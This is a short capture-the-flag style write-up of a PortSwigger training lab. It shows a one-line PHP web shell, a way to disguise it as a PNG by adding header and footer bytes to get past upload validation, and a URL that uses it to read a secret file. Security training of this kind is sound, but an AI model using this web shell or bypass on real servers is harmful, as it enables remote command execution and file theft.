


# [Remote code execution via polyglot web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)

## Steps

- Went to the login page, and logged in with provided credentials from the lab description (wiener:peter).
- On the my account page uploaded simple `image.php` file instead of actual profile image.


`image.php`:

```php
<?php system($_GET['cmd']); ?>
```

- Got response message:

```
Error: file is not a valid image Sorry, there was an error uploading your file.
```

- Opened file in `ImHex` hex editor and added PNG header (`89 50 4E 47 0D 0A 1A 0A`) and footer (`00 00 00 00 49 45 4E 44 AE 42 60 82`).



- Uploaded new file successfully.

- Opened url `https://0a3600d4041937a083e21eb40037003a.web-security-academy.net/files/avatars/image.php?cmd=cat%20/home/carlos/secret` to run the `cat /home/carlos/secret` command and obtain the secret flag (ignored PNG header and footer from response).



Flag: `QmLNEEIyV5UbkiBsAPUTM7FePGbIq8Z4`
